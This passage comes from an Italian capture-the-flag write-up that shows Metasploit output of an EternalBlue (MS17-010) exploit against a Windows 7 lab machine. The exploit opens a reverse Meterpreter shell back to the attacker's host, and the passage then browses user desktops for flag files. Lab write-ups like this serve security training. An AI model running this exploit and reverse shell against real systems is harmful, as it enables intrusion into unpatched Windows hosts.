 ```bash
[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.40:49160) at 2023-11-19 14:43:25 -0500
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > pwd
C:\Windows\system32
```
\
Ora che sono dentro al sistema target procedo ad esplorarlo un po'. Trovare le flag di <span style="color:#46eac7">user</span> e <span style="color:#46eac7">root</span> è molto semplice.

```bash
meterpreter > cd \C:\\\

[--SNIP--]

meterpreter > ls
Listing: C:\Users\haris\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-15 03:58:32 -0400  desktop.ini
100444/r--r--r--  34    fil   2023-11-17 11:37:56 -0500  user.txt

meterpreter > cat user.txt 
********************************

[--SNIP--]

meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
```